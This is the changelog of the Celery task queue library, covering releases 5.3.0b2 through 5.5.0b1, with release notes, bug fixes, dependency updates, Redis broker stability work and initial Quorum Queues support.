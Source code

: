 .. _changelog:

================
 Change history
================

This document contains change notes for bugfix & new features
in the main branch & 5.5.x series, please see :ref:`whatsnew-5.5` for
an overview of what's new in Celery 5.5.

.. _version-5.5.0b1:

5.5.0b1
=======

:release-date: 2024-07-24
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 1 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the release-candidate for Kombu v5.4.0. This beta release has been upgraded to use the new
Kombu RC version, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- (docs): use correct version celery v.5.4.x (#8975)
- Update mypy to 1.10.0 (#8977)
- Limit pymongo<4.7 when Python <= 3.10 due to breaking changes in 4.7 (#8988)
- Bump pytest from 8.1.1 to 8.2.0 (#8987)
- Update README to Include FastAPI in Framework Integration Section (#8978)
- Clarify return values of ..._on_commit methods (#8984)
- add kafka broker docs (#8935)
- Limit pymongo<4.7 regardless of Python version (#8999)
- Update pymongo[srv] requirement from <4.7,>=4.0.2 to >=4.0.2,<4.8 (#9000)
- Update elasticsearch requirement from <=8.13.0 to <=8.13.1 (#9004)
- security: SecureSerializer: support generic low-level serializers (#8982)
- don't kill if pid same as file (#8997) (#8998)
- Update cryptography to 42.0.6 (#9005)
- Bump cryptography from 42.0.6 to 42.0.7 (#9009)
- Added -vv to unit, integration and smoke tests (#9014)
- SecuritySerializer: ensure pack separator will not be conflicted with serialized fields (#9010)
- Update sphinx-click to 5.2.2 (#9025)
- Bump sphinx-click from 5.2.2 to 6.0.0 (#9029)
- Fix a typo to display the help message in first-steps-with-django (#9036)
- Pinned requests to v2.31.0 due to docker-py bug #3256 (#9039)
- Fix certificate validity check (#9037)
- Revert "Pinned requests to v2.31.0 due to docker-py bug #3256" (#9043)
- Bump pytest from 8.2.0 to 8.2.1 (#9035)
- Update elasticsearch requirement from <=8.13.1 to <=8.13.2 (#9045)
- Fix detection of custom task set as class attribute with Django (#9038)
- Update elastic-transport requirement from <=8.13.0 to <=8.13.1 (#9050)
- Bump pycouchdb from 1.14.2 to 1.16.0 (#9052)
- Update pytest to 8.2.2 (#9060)
- Bump cryptography from 42.0.7 to 42.0.8 (#9061)
- Update elasticsearch requirement from <=8.13.2 to <=8.14.0 (#9069)
- [enhance feature] Crontab schedule: allow using month names (#9068)
- Enhance tox environment: [testenv:clean] (#9072)
- Clarify docs about Reserve one task at a time (#9073)
- GCS docs fixes (#9075)
- Use hub.remove_writer instead of hub.remove for write fds (#4185) (#9055)
- Class method to process crontab string (#9079)
- Fixed smoke tests env bug when using integration tasks that rely on Redis (#9090)
- Bugfix - a task will run multiple times when chaining chains with groups (#9021)
- Bump mypy from 1.10.0 to 1.10.1 (#9096)
- Don't add a separator to global_keyprefix if it already has one (#9080)
- Update pymongo[srv] requirement from <4.8,>=4.0.2 to >=4.0.2,<4.9 (#9111)
- Added missing import in examples for Django (#9099)
- Bump Kombu to v5.4.0rc1 (#9117)
- Removed skipping Redis in t/smoke/tests/test_consumer.py tests (#9118)
- Update pytest-subtests to 0.13.0 (#9120)
- Increased smoke tests CI timeout (#9122)
- Bump Kombu to v5.4.0rc2 (#9127)
- Update zstandard to 0.23.0 (#9129)
- Update pytest-subtests to 0.13.1 (#9130)
- Changed retry to tenacity in smoke tests (#9133)
- Bump mypy from 1.10.1 to 1.11.0 (#9135)
- Update cryptography to 43.0.0 (#9138)
- Update pytest to 8.3.1 (#9137)
- Added support for Quorum Queues (#9121)
- Bump Kombu to v5.4.0rc3 (#9139)
- Cleanup in Changelog.rst (#9141)
- Update Django docs for CELERY_CACHE_BACKEND (#9143)
- Added missing docs to previous releases (#9144)
- Fixed a few documentation build warnings (#9145)
- docs(README): link invalid (#9148)
- Prepare for (pre) release: v5.5.0b1 (#9146)

.. _version-5.4.0:

5.4.0
=====

:release-date: 2024-04-17
:release-by: Tomer Nosrati

Celery v5.4.0 and v5.3.x have consistently focused on enhancing the overall QA, both internally and externally.
This effort led to the new pytest-celery v1.0.0 release, developed concurrently with v5.3.0 & v5.4.0.

This release introduces two significant QA enhancements:

- **Smoke Tests**: A new layer of automatic tests has been added to Celery's standard CI. These tests are designed to handle production scenarios and complex conditions efficiently. While new contributions will not be halted due to the lack of smoke tests, we will request smoke tests for advanced changes where appropriate.
- `Standalone Bug Report Script <https://docs.celeryq.dev/projects/pytest-celery/en/latest/userguide/celery-bug-report.html>`_: The new pytest-celery plugin now allows for encapsulating a complete Celery dockerized setup within a single pytest script. Incorporating these into new bug reports will enable us to reproduce reported bugs deterministically, potentially speeding up the resolution process.

Contrary to the positive developments above, there have been numerous reports about issues with the Redis broker malfunctioning
upon restarts and disconnections. Our initial attempts to resolve this were not successful (#8796).
With our enhanced QA capabilities, we are now prepared to address the core issue with Redis (as a broker) again.

The rest of the changes for this release are grouped below, with the changes from the latest release candidate listed at the end.

Changes
~~~~~~~
- Add a Task class specialised for Django (#8491)
- Add Google Cloud Storage (GCS) backend (#8868)
- Added documentation to the smoke tests infra (#8970)
- Added a checklist item for using pytest-celery in a bug report (#8971)
- Bugfix: Missing id on chain (#8798)
- Bugfix: Worker not consuming tasks after Redis broker restart (#8796)
- Catch UnicodeDecodeError when opening corrupt beat-schedule.db (#8806)
- chore(ci): Enhance CI with `workflow_dispatch` for targeted debugging and testing (#8826)
- Doc: Enhance "Testing with Celery" section (#8955)
- Docfix: pip install celery[sqs] -> pip install "celery[sqs]" (#8829)
- Enable efficient `chord` when using dynamicdb as backend store (#8783)
- feat(daemon): allows daemonization options to be fetched from app settings (#8553)
- Fix DeprecationWarning: datetime.datetime.utcnow() (#8726)
- Fix recursive result parents on group in middle of chain (#8903)
- Fix typos and grammar (#8915)
- Fixed version documentation tag from #8553 in configuration.rst (#8802)
- Hotfix: Smoke tests didn't allow customizing the worker's command arguments, now it does (#8937)
- Make custom remote control commands available in CLI (#8489)
- Print safe_say() to stdout for non-error flows (#8919)
- Support moto 5.0 (#8838)
- Update contributing guide to use ssh upstream url (#8881)
- Update optimizing.rst (#8945)
- Updated concurrency docs page. (#8753)

Dependencies Updates
~~~~~~~~~~~~~~~~~~~~
- Bump actions/setup-python from 4 to 5 (#8701)
- Bump codecov/codecov-action from 3 to 4 (#8831)
- Bump isort from 5.12.0 to 5.13.2 (#8772)
- Bump msgpack from 1.0.7 to 1.0.8 (#8885)
- Bump mypy from 1.8.0 to 1.9.0 (#8898)
- Bump pre-commit to 3.6.1 (#8839)
- Bump pre-commit/action from 3.0.0 to 3.0.1 (#8835)
- Bump pytest from 8.0.2 to 8.1.1 (#8901)
- Bump pytest-celery to v1.0.0 (#8962)
- Bump pytest-cov to 5.0.0 (#8924)
- Bump pytest-order from 1.2.0 to 1.2.1 (#8941)
- Bump pytest-subtests from 0.11.0 to 0.12.1 (#8896)
- Bump pytest-timeout from 2.2.0 to 2.3.1 (#8894)
- Bump python-memcached from 1.59 to 1.61 (#8776)
- Bump sphinx-click from 4.4.0 to 5.1.0 (#8774)
- Update cryptography to 42.0.5 (#8869)
- Update elastic-transport requirement from <=8.12.0 to <=8.13.0 (#8933)
- Update elasticsearch requirement from <=8.12.1 to <=8.13.0 (#8934)
- Upgraded Sphinx from v5.3.0 to v7.x.x (#8803)

Changes since 5.4.0rc2
~~~~~~~~~~~~~~~~~~~~~~~
- Update elastic-transport requirement from <=8.12.0 to <=8.13.0 (#8933)
- Update elasticsearch requirement from <=8.12.1 to <=8.13.0 (#8934)
- Hotfix: Smoke tests didn't allow customizing the worker's command arguments, now it does (#8937)
- Bump pytest-celery to 1.0.0rc3 (#8946)
- Update optimizing.rst (#8945)
- Doc: Enhance "Testing with Celery" section (#8955)
- Bump pytest-celery to v1.0.0 (#8962)
- Bump pytest-order from 1.2.0 to 1.2.1 (#8941)
- Added documentation to the smoke tests infra (#8970)
- Added a checklist item for using pytest-celery in a bug report (#8971)
- Added changelog for v5.4.0 (#8973)
- Bump version: 5.4.0rc2 → 5.4.0 (#8974)

.. _version-5.4.0rc2:

5.4.0rc2
========

:release-date: 2024-03-27
:release-by: Tomer Nosrati

- feat(daemon): allows daemonization options to be fetched from app settings (#8553)
- Fixed version documentation tag from #8553 in configuration.rst (#8802)
- Upgraded Sphinx from v5.3.0 to v7.x.x (#8803)
- Update elasticsearch requirement from <=8.11.1 to <=8.12.0 (#8810)
- Update elastic-transport requirement from <=8.11.0 to <=8.12.0 (#8811)
- Update cryptography to 42.0.0 (#8814)
- Catch UnicodeDecodeError when opening corrupt beat-schedule.db (#8806)
- Update cryptography to 42.0.1 (#8817)
- Limit moto to <5.0.0 until the breaking issues are fixed (#8820)
- Enable efficient `chord` when using dynamicdb as backend store (#8783)
- Add a Task class specialised for Django (#8491)
- Sync kombu versions in requirements and setup.cfg (#8825)
- chore(ci): Enhance CI with `workflow_dispatch` for targeted debugging and testing (#8826)
- Update cryptography to 42.0.2 (#8827)
- Docfix: pip install celery[sqs] -> pip install "celery[sqs]" (#8829)
- Bump pre-commit/action from 3.0.0 to 3.0.1 (#8835)
- Support moto 5.0 (#8838)
- Another fix for `link_error` signatures being `dict`s instead of `Signature` s (#8841)
- Bump codecov/codecov-action from 3 to 4 (#8831)
- Upgrade from pytest-celery v1.0.0b1 -> v1.0.0b2 (#8843)
- Bump pytest from 7.4.4 to 8.0.0 (#8823)
- Update pre-commit to 3.6.1 (#8839)
- Update cryptography to 42.0.3 (#8854)
- Bump pytest from 8.0.0 to 8.0.1 (#8855)
- Update cryptography to 42.0.4 (#8864)
- Update pytest to 8.0.2 (#8870)
- Update cryptography to 42.0.5 (#8869)
- Update elasticsearch requirement from <=8.12.0 to <=8.12.1 (#8867)
- Eliminate consecutive chords generated by group | task upgrade (#8663)
- Make custom remote control commands available in CLI (#8489)
- Add Google Cloud Storage (GCS) backend (#8868)
- Bump msgpack from 1.0.7 to 1.0.8 (#8885)
- Update pytest to 8.1.0 (#8886)
- Bump pytest-timeout from 2.2.0 to 2.3.1 (#8894)
- Bump pytest-subtests from 0.11.0 to 0.12.1 (#8896)
- Bump mypy from 1.8.0 to 1.9.0 (#8898)
- Update pytest to 8.1.1 (#8901)
- Update contributing guide to use ssh upstream url (#8881)
- Fix recursive result parents on group in middle of chain (#8903)
- Bump pytest-celery to 1.0.0b4 (#8899)
- Adjusted smoke tests CI time limit (#8907)
- Update pytest-rerunfailures to 14.0 (#8910)
- Use the "all" extra for pytest-celery (#8911)
- Fix typos and grammar (#8915)
- Bump pytest-celery to 1.0.0rc1 (#8918)
- Print safe_say() to stdout for non-error flows (#8919)
- Update pytest-cov to 5.0.0 (#8924)
- Bump pytest-celery to 1.0.0rc2 (#8928)

.. _version-5.4.0rc1:

5.4.0rc1
========

:release-date: 2024-01-17 7:00 P.M GMT+2
:release-by: Tomer Nosrati

Celery v5.4 continues our effort to provide improved stability in production
environments. The release candidate version is available for testing.
The official release is planned for March-April 2024.

- New Config: worker_enable_prefetch_count_reduction (#8581)
- Added "Serverless" section to Redis doc (redis.rst) (#8640)
- Upstash's Celery example repo link fix (#8665)
- Update mypy version (#8679)
- Update cryptography dependency to 41.0.7 (#8690)
- Add type annotations to celery/utils/nodenames.py (#8667)
- Issue 3426. Adding myself to the contributors. (#8696)
- Bump actions/setup-python from 4 to 5 (#8701)
- Fixed bug where chord.link_error() throws an exception on a dict type errback object (#8702)
- Bump github/codeql-action from 2 to 3 (#8725)
- Fixed multiprocessing integration tests not running on Mac (#8727)
- Added make docker-docs (#8729)
- Fix DeprecationWarning: datetime.datetime.utcnow() (#8726)
- Remove `new` adjective in docs (#8743)
- add type annotation to celery/utils/sysinfo.py (#8747)
- add type annotation to celery/utils/iso8601.py (#8750)
- Change type annotation to celery/utils/iso8601.py (#8752)
- Update test deps (#8754)
- Mark flaky: test_asyncresult_get_cancels_subscription() (#8757)
- change _read_as_base64 (b64encode returns bytes) on celery/utils/term.py (#8759)
- Replace string concatenation with fstring on celery/utils/term.py (#8760)
- Add type annotation to celery/utils/term.py (#8755)
- Skipping test_tasks::test_task_accepted (#8761)
- Updated concurrency docs page. (#8753)
- Changed pyup -> dependabot for updating dependencies (#8764)
- Bump isort from 5.12.0 to 5.13.2 (#8772)
- Update elasticsearch requirement from <=8.11.0 to <=8.11.1 (#8775)
- Bump sphinx-click from 4.4.0 to 5.1.0 (#8774)
- Bump python-memcached from 1.59 to 1.61 (#8776)
- Update elastic-transport requirement from <=8.10.0 to <=8.11.0 (#8780)
- python-memcached==1.61 -> python-memcached>=1.61 (#8787)
- Remove usage of utcnow (#8791)
- Smoke Tests (#8793)
- Moved smoke tests to their own workflow (#8797)
- Bugfix: Worker not consuming tasks after Redis broker restart (#8796)
- Bugfix: Missing id on chain (#8798)

.. _version-5.3.6:

5.3.6
=====

:release-date: 2023-11-22  9:15 P.M GMT+6
:release-by: Asif Saif Uddin

This release is focused mainly to fix AWS SQS new feature comatibility issue and old regressions. 
The code changes are mostly fix for regressions. More details can be found below.

- Increased docker-build CI job timeout from 30m -> 60m (#8635)
- Incredibly minor spelling fix. (#8649)
- Fix non-zero exit code when receiving remote shutdown (#8650)
- Update task.py get_custom_headers missing 'compression' key (#8633)
- Update kombu>=5.3.4 to fix SQS request compatibility with boto JSON serializer (#8646)
- test requirements version update (#8655)
- Update elasticsearch version (#8656)
- Propagates more ImportErrors during autodiscovery (#8632)

.. _version-5.3.5:

5.3.5
=====

:release-date: 2023-11-10  7:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Update test.txt versions (#8481)
- fix os.getcwd() FileNotFoundError (#8448)
- Fix typo in CONTRIBUTING.rst (#8494)
- typo(doc): configuration.rst (#8484)
- assert before raise (#8495)
- Update GHA checkout version (#8496)
- Fixed replaced_task_nesting (#8500)
- Fix code indentation for route_task() example (#8502)
- support redis 5.x (#8504)
- Fix typos in test_canvas.py (#8498)
- Marked flaky tests (#8508)
- Fix typos in calling.rst (#8506)
- Added support for replaced_task_nesting in chains (#8501)
- Fix typos in canvas.rst (#8509)
- Patch Version Release Checklist (#8488)
- Added Python 3.11 support to Dockerfile (#8511)
- Dependabot (Celery) (#8510)
- Bump actions/checkout from 3 to 4 (#8512)
- Update ETA example to include timezone (#8516)
- Replaces datetime.fromisoformat with the more lenient dateutil parser (#8507)
- Fixed indentation in Dockerfile for Python 3.11 (#8527)
- Fix git bug in Dockerfile (#8528)
- Tox lint upgrade from Python 3.9 to Python 3.11 (#8526)
- Document gevent concurrency (#8520)
- Update test.txt (#8530)
- Celery Docker Upgrades (#8531)
- pyupgrade upgrade v3.11.0 -> v3.13.0 (#8535)
- Update msgpack.txt (#8548)
- Update auth.txt (#8547)
- Update msgpack.txt to fix build issues (#8552)
- Basic ElasticSearch / ElasticClient 8.x Support (#8519)
- Fix eager tasks does not populate name field (#8486)
- Fix typo in celery.app.control (#8563)
- Update solar.txt ephem (#8566)
- Update test.txt pytest-timeout (#8565)
- Correct some mypy errors (#8570)
- Update elasticsearch.txt (#8573)
- Update test.txt deps (#8574)
- Update test.txt (#8590)
- Improved the "Next steps" documentation (#8561). (#8600)
- Disabled couchbase tests due to broken package breaking main (#8602)
- Update elasticsearch deps (#8605)
- Update cryptography==41.0.5 (#8604)
- Update pytest==7.4.3 (#8606)
- test initial support of python 3.12.x (#8549)
- updated new versions to fix CI (#8607)
- Update zstd.txt (#8609)
- Fixed CI Support with Python 3.12 (#8611)
- updated CI, docs and classifier for next release (#8613)
- updated dockerfile to add python 3.12 (#8614)
- lint,mypy,docker-unit-tests -> Python 3.12 (#8617)
- Correct type of `request` in `task_revoked` documentation (#8616)
- update docs docker image (#8618)
- Fixed RecursionError caused by giving `config_from_object` nested mod… (#8619)
- Fix: serialization error when gossip working (#6566)
- [documentation] broker_connection_max_retries of 0 does not mean "retry forever" (#8626)
- added 2 debian package for better stability in Docker (#8629)

.. _version-5.3.4:

5.3.4
=====

:release-date: 2023-09-03 10:10 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has reverted the breaking changes introduced in 5.3.2 and 5.3.3:

   - Revert "store children with database backend" (#8475)
   - Revert "Fix eager tasks does not populate name field" (#8476)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- add documents for timeout settings (#8373)
- fix: copyright year (#8380)
- setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- fix(canvas): add group index when unrolling tasks (#8427)
- fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)
- Document need for CELERY_ prefix on CLI env vars (#8469)
- Use string value for CELERY_SKIP_CHECKS envvar (#8462)
- Revert "store children with database backend" (#8475)
- Revert "Fix eager tasks does not populate name field" (#8476)
- Update Changelog (#8474)
- Remove as it seems to be buggy. (#8340)
- Revert "Add Semgrep to CI" (#8477)
- Revert "Revert "Add Semgrep to CI"" (#8478)

.. _version-5.3.3:

5.3.3 (Yanked)
==============

:release-date: 2023-08-31 1:47 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Fixed changelog for 5.3.2 release docs.

.. _version-5.3.2:

5.3.2 (Yanked)
==============

:release-date: 2023-08-31 1:30 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- Store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- Add documents for timeout settings (#8373)
- Fix: copyright year (#8380)
- Setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- Integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- Fix(canvas): add group index when unrolling tasks (#8427)
- Fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- Added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- Doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)

.. _version-5.3.1:

5.3.1
=====

:release-date: 2023-06-18  8:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Upgrade to latest pycurl release (#7069).
- Limit librabbitmq>=2.0.0; python_version < '3.11' (#8302).
- Added initial support for python 3.11 (#8304).
- ChainMap observers fix (#8305).
- Revert optimization CLI flag behaviour back to original.
- Restrict redis 4.5.5 as it has severe bugs (#8317).
- Tested pypy 3.10 version in CI (#8320).
- Bump new version of kombu to 5.3.1 (#8323).
- Fixed a small float value of retry_backoff (#8295).
- Limit pyro4 up to python 3.10 only as it is (#8324).

.. _version-5.3.0:

5.3.0
=====

:release-date: 2023-06-06 12:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Test kombu 5.3.0 & minor doc update (#8294).
- Update librabbitmq.txt > 2.0.0 (#8292).
- Upgrade syntax to py3.8 (#8281).

.. _version-5.3.0rc2:

5.3.0rc2
========

:release-date: 2023-05-31 9:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Add missing dependency.
- Fix exc_type being the exception instance rather.
- Fixed revoking tasks by stamped headers (#8269).
- Support sqlalchemy 2.0 in tests (#8271).
- Fix docker (#8275).
- Update redis.txt to 4.5 (#8278).
- Update kombu>=5.3.0rc2.


.. _version-5.3.0rc1:

5.3.0rc1
========

:release-date: 2023-05-11 4:24 P.M GMT+2
:release-by: Tomer Nosrati

- fix functiom name by @cuishuang in #8087
- Update CELERY_TASK_EAGER setting in user guide by @thebalaa in #8085
- Stamping documentation fixes & cleanups by @Nusnus in #8092
- switch to maintained pyro5 by @auvipy in #8093
- udate dependencies of tests by @auvipy in #8095
- cryptography==39.0.1 by @auvipy in #8096
- Annotate celery/security/certificate.py by @Kludex in #7398
- Deprecate parse_iso8601 in favor of fromisoformat by @stumpylog in #8098
- pytest==7.2.2 by @auvipy in #8106
- Type annotations for celery/utils/text.py by @max-muoto in #8107
- Update web framework URLs by @sblondon in #8112
- Fix contribution URL by @sblondon in #8111
- Trying to clarify CERT_REQUIRED by @pamelafox in #8113
- Fix potential AttributeError on 'stamps' by @Darkheir in #8115
- Type annotations for celery/apps/beat.py by @max-muoto in #8108
- Fixed bug where retrying a task loses its stamps by @Nusnus in #8120
- Type hints for celery/schedules.py by @max-muoto in #8114
- Reference Gopher Celery in README by @marselester in #8131
- Update sqlalchemy.txt by @auvipy in #8136
- azure-storage-blob 12.15.0 by @auvipy in #8137
- test kombu 5.3.0b3 by @auvipy in #8138
- fix: add expire string parse. by @Bidaya0 in #8134
- Fix worker crash on un-pickleable exceptions by @youtux in #8133
- CLI help output: avoid text rewrapping by click by @woutdenolf in #8152
- Warn when an unnamed periodic task override another one. by @iurisilvio in #8143
- Fix Task.handle_ignore not wrapping exceptions properly by @youtux in #8149
- Hotfix for (#8120) - Stamping bug with retry by @Nusnus in #8158
- Fix integration test by @youtux in #8156
- Fixed bug in revoke_by_stamped_headers where impl did not match doc by @Nusnus in #8162
- Align revoke and revoke_by_stamped_headers return values (terminate=True) by @Nusnus in #8163
- Update & simplify GHA pip caching by @stumpylog in #8164
- Update auth.txt by @auvipy in #8167
- Update test.txt versions by @auvipy in #8173
- remove extra = from test.txt by @auvipy in #8179
- Update sqs.txt kombu[sqs]>=5.3.0b3 by @auvipy in #8174
- Added signal triggered before fork by @jaroslawporada in #8177
- Update documentation on SQLAlchemy by @max-muoto in #8188
- Deprecate pytz and use zoneinfo by @max-muoto in #8159
- Update dev.txt by @auvipy in #8192
- Update test.txt by @auvipy in #8193
- Update test-integration.txt by @auvipy in #8194
- Update zstd.txt by @auvipy in #8195
- Update s3.txt by @auvipy in #8196
- Update msgpack.txt by @auvipy in #8199
- Update solar.txt by @auvipy in #8198
- Add Semgrep to CI by @Nusnus in #8201
- Added semgrep to README.rst by @Nusnus in #8202
- Update django.txt by @auvipy in #8197
- Update redis.txt 4.3.6 by @auvipy in #8161
- start removing codecov from pypi by @auvipy in #8206
- Update test.txt dependencies by @auvipy in #8205
- Improved doc for: worker_deduplicate_successful_tasks by @Nusnus in #8209
- Renamed revoked_headers to revoked_stamps by @Nusnus in #8210
- Ensure argument for map is JSON serializable by @candleindark in #8229

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
